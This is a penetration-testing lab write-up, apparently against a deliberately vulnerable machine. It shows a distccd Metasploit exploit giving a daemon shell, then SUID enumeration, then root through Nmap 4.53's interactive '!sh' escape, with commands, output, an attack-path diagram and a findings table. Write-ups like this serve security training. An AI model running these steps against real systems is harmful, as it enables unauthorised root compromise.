



# Privilege Escalation

## Objective

The objective of this phase was to escalate privileges from the low-privileged `daemon` shell obtained through the `distccd` vulnerability to `root`.

---

## 1. Obtain Low-Privileged Shell

The `distccd` vulnerability was exploited to obtain a command shell on the target.

```text
msf exploit(unix/misc/distcc_exec) > run

[*] Command shell session 1 opened
```

The privileges were verified:

```text
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

whoami
daemon
```



**Result:** A low-privileged `daemon` shell was obtained.

---

## 2. Identify SUID Binaries

SUID binaries were enumerated using:

```bash
find / -perm -4000 -type f 2>/dev/null
```

The scan identified:

```text
/usr/bin/nmap
```

The permissions were verified:

```bash
ls -l /usr/bin/nmap
```

```text
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
```



**Finding:** Nmap was owned by `root` and had the SUID bit enabled.

---

## 3. Identify Nmap Version

The installed Nmap version was checked:

```bash
nmap --version
```

```text
Nmap version 4.53
```

---

## 4. Privilege Escalation

Nmap was started in interactive mode:

```bash
nmap --interactive
```

At the `nmap>` prompt, a shell was spawned:

```text
!sh
```

The resulting privilege level was verified:

```text
whoami
root
```



**Result:** The `daemon` user successfully escalated to `root`.

---

## 5. Attack Path

```text
distccd vulnerability
        ↓
daemon shell
        ↓
SUID Nmap 4.53
        ↓
Nmap interactive mode
        ↓
!sh
        ↓
root shell
```

---

## Findings

| Finding | Result | Severity |
|---|---|---|
| distccd command execution | `daemon` shell obtained | High |
| SUID Nmap | Root-owned SUID binary identified | Critical |
| Nmap 4.53 | Interactive shell capability | High |
| Privilege Escalation | `daemon` → `root` | Critical |

---

## Conclusion

The `daemon` user successfully escalated privileges to `root` through the SUID-enabled Nmap 4.53 binary.

This demonstrates how an insecure SUID configuration combined with outdated software can result in complete administrative compromise of the system.
